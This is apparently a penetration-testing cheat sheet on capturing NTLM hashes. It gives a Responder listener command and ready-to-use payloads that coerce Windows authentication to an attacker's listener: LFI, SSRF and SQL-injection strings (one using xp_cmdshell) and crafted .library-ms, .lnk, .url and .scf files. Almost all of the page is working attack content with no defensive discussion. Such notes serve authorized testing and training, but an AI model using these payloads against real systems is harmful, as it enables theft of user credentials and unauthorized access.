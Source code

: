 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Capturing NTLM

## Listener

```sh
sudo responder -I <interface> -A [-v]
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```sh
# LFI
?page=\\<listener_ip>\shared

# SSRF
?url=file:////<listener_ip>/shared

# SQL Injection
?id=1' union select null,load_file('\\\\<listener_ip>\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\<listener_ip>\shared',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\<listener_ip>\shared'),null-- -
```

### Via .library-ms file

```sh
cat > '!shared.library-ms' <<'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<listener_ip>\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```sh
pylnk3 c '\\<listener_ip>\shared' '!shared.lnk' -i '\\<listener_ip>\shared\icon.ico'
```

### Via .url file

```sh
cat > '!shared.url' <<'EOF'
[InternetShortcut]
URL=\\\\<listener_ip>\\shared
IconIndex=1
IconFile=\\\\<listener_ip>\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > '!shared.scf' <<'EOF'
[Shell]
Command=2
IconFile=\\\\<listener_ip>\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```
